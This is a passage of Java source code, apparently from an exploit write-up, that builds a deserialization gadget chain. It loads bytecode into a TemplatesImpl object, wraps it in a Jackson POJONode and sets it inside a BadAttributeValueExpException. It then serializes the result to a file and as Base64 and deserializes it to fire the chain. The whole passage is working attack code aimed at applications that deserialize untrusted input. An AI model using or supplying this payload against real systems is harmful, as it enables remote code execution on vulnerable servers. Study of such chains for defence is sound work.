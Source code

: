 ```plain
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templatesImpl, "_name", "fakes0u1");
        setFieldValue(templatesImpl, "_tfactory", null);
        POJONode jsonNodes = new POJONode(templatesImpl);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(exp);
        FileOutputStream fout=new FileOutputStream("1.ser");
        fout.write(barr.toByteArray());
        fout.close();
        FileInputStream fileInputStream = new FileInputStream("1.ser");
        System.out.println(serial(exp));
        deserial(serial(exp));
    }

    public static String serial(Object o) throws IOException, NoSuchFieldException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();

        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());
        return base64String;

    }

    public static void deserial(String data) throws Exception {
        byte[] base64decodedBytes = Base64.getDecoder().decode(data);
        ByteArrayInputStream bais = new ByteArrayInputStream(base64decodedBytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    private static void Base64Encode(ByteArrayOutputStream bs){
        byte[] encode = Base64.getEncoder().encode(bs.toByteArray());
        String s = new String(encode);
        System.out.println(s);
        System.out.println(s.length());
    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
}
```
